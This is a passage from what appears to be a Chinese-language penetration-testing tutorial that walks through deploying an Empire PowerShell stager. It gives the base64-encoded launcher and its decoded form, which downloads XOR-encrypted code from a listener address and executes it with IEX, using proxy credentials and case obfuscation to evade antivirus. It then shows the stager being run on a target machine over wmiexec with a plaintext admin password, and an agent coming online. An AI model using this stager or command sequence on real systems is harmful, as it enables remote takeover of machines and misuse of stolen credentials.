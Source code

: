 ```
DsAJABXAEMALgBQAHIAbwBYAFkALgBDAHIAZQBEAEUAbgBUAGkAQQBM
AFMAIAA9ACAAWwBTAFkAUwB0AGUAbQAuAE4AZQBUAC4AQwBSAEUAZA
BFAE4AdABpAGEATABDAGEAQwBIAGUAXQA6ADoARABlAGYAYQB1AGwAd
ABOAGUAdAB3AE8AUgBrAEMAUgBFAGQAZQBOAHQASQBhAEwAcwA7ACQ
ASwA9ACcANwBjADMANwBiAGUANwAyADYAMABmADgAYwBkADcAYwAxA
GYANQBlADQAZABiAGQAZAA3AGIAYwA1AGIAMgAzACcAOwAkAEkAPQAwA
DsAWwBDAEgAQQBSAFsAXQBdACQAYgA9ACgAWwBDAEgAQQBSAFsAXQBd
ACgAJAB3AEMALgBEAG8AdwBOAGwATwBBAEQAUwBUAHIASQBuAEcAKAA
iAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADUANgAuADEAMA
AxADoANAA0ADMALwBpAG4AZABlAHgALgBhAHMAcAAiACkAKQApAHwAJQ
B7ACQAXwAtAEIAWABPAHIAJABrAFsAJABJACsAKwAlACQAawAuAEwARQBu
AEcAdABoAF0AfQA7AEkARQBYACAAKAAkAEIALQBKAG8AaQBOACcAJwApAA
==
```

不要试着去记忆这些大量看似随机的字符。这只是一个名为base64的编码算法，用于简化内联执行。如果您好奇，可以使用以下命令将其反转：
```
root@FrontGun:# echo "WwBTAFkAUwB0AGUAbQAuI[…]" |base64 -d
```

这将生成正常的PowerShell命令，这些命令连接回监听器，轮询新命令，并在目标上执行它们。stager可以处理代理设置（企业环境中的经典设置）并使用对称加密（XOR操作）来保护通信流。

如您所见，由于大写字符、缩写和符号的原因，代码有点难以阅读：一些用于躲避反病毒软件的技术。简而言之，向Empire团队表示敬意。(注意：因为markdown文件中包含了恶意的代码片段，所以也会被Windows Defender处理)
```
[SYStem.NeT.ServicEPoiNTManAger]::ExPECt100CoNTInuE = 0;$WC=NeWOBjECT SYSTem.Net.WEBCLIENt;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wc.HEadeRS.ADD('User-Agent',$u);

$Wc.PrOXy = [SYsTeM.Net.WeBReqUEST]::DEfAUltWEbPRoxy;

$WC.ProXY.CreDEnTiALS =
[SYStem.NeT.CREdENtiaLCaCHe]::DefaultNetwORkCREdeNtIaLs;

$K='7c37be7260f8cd7c1f5e4dbdd7bc5b23';

$I=0;

[CHAR[]]$b=([CHAR[]]
($wC.DowNlOADSTrInG("http://192.168.56.101:443/index.asp")))|%{$_-
BXOr$k[$I++%$k.LEnGth]};

IEX ($B-JoiN'')
```

我们使用wmiexec在管理器的工作站上执行此stager，并耐心地等待前置服务器上的通知：
```
root@PIspy:# wmiexec.py wk_admin:7stringsRockHell*@192.168.1.25
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
[*] SMBv3.0 dialect used
C:\>powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAFkAUwB0AGUAbQAuAE4AZQBUA[…]
(Empire: stager/launcher) >
[+] Initial agent HRWTGSWH1H4TGHEK from 192.168.1.25 now active
```
